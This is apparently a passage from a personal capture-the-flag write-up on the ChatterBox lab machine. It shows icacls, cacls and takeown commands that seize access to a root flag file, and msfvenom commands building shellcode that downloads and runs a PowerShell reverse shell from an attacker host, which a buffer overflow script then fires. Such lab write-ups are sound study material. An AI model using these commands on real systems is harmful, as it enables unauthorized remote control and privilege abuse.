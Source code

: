 - lets attempt to add Full permissions to Alfred for the root file using the command `icacls c:\Users\Administrator\Desktop\root.txt /grant CHATTERBOX\Alfred:(F)` and now we have access to the root.txt file without administrator access!!!

![](assets/ChatterBox_assets/Pasted%20image%2020230619162448.png)

- other commands we can run that will do the same thing as icals are

```
- cacls "path_to_file" /E /G "username":(permissions)
- takeown /F "path_to_file"
```


WRITEUP
- generate a powershell payload 
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/writeup.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
- Using the powershell script at i generated the payload using this command instead 
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
- and paste that in the buffer overflow script, this will download and execute the powershell (reverse shell) script from our attack machine, then also start a nc listener 
```
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ python2 36025.py
---->{P00F}!
```
![](assets/ChatterBox_assets/Pasted%20image%2020230621083623.png)